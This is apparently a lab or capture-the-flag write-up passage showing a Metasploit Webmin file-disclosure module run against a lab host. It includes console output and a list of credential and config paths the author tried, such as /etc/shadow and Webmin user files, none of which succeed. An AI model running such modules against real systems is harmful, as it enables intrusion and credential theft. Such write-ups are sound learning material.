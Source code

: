 ## 3. Attack Attempt 1: Attacking Webmin (Port 10000)
Let's run this `auxiliary/admin/webmin/file_disclosure` exploit.
```
msf5 > use auxiliary/admin/webmin/file_disclosure

msf5 auxiliary(admin/webmin/file_disclosure) > run
[*] Running module against 10.10.10.7

[*] Attempting to retrieve /etc/passwd...
[-] Auxiliary failed: Errno::ENOTCONN Transport endpoint is not connected - getpeername(2)
[-] Call stack:
[-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket.rb:752:in `getpeername'
[-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket.rb:752:in `getpeername_as_array'
[-]   /usr/share/metasploit-framework/vendor/bundle/ruby/2.7.0/gems/rex-socket-0.1.23/lib/rex/socket.rb:765:in `peerinfo'
[-]   /usr/share/metasploit-framework/lib/rex/proto/http/client.rb:640:in `peerinfo'
[-]   /usr/share/metasploit-framework/lib/rex/proto/http/client.rb:233:in `_send_recv'
[-]   /usr/share/metasploit-framework/lib/rex/proto/http/client.rb:211:in `send_recv'
[-]   /usr/share/metasploit-framework/lib/msf/core/exploit/http/client.rb:336:in `send_request_raw'
[-]   /usr/share/metasploit-framework/modules/auxiliary/admin/webmin/file_disclosure.rb:65:in `run'
[*] Auxiliary module execution completed
```
Nope, didn't work. What about doing exploit instead?
```
msf5 auxiliary(admin/webmin/file_disclosure) > exploit
[*] Running module against 10.10.10.7

[*] Attempting to retrieve /etc/passwd...
[*] The server returned: 200 Bad Request
<h1>Error - Bad Request</h1>
<pre>This web server is running in SSL mode. Try the URL <a href='https://10.10.10.7:10000/'>https://10.10.10.7:10000/</a> instead.<br></pre>
[*] Auxiliary module execution completed

msf5 auxiliary(admin/webmin/file_disclosure) > set ssl true
...
msf5 auxiliary(admin/webmin/file_disclosure) > run
[*] Running module against 10.10.10.7

[*] Attempting to retrieve /etc/passwd...
[*] The server returned: 404 File not found
<h1>Error - File not found</h1>
[*] Auxiliary module execution completed
```
Ah this works, but no file found.
I've tried finding common files, such as:
```
/etc/webmin/miniserv.conf
/etc/webmin/htusers
/etc/webmin/virtual-server/plainpass
/etc/webmin/virtual-server/plainpass dir.
/etc/webmin/miniserv.users
/etc/shadow
```
But they all return with `File not found` error. There should be another way in..
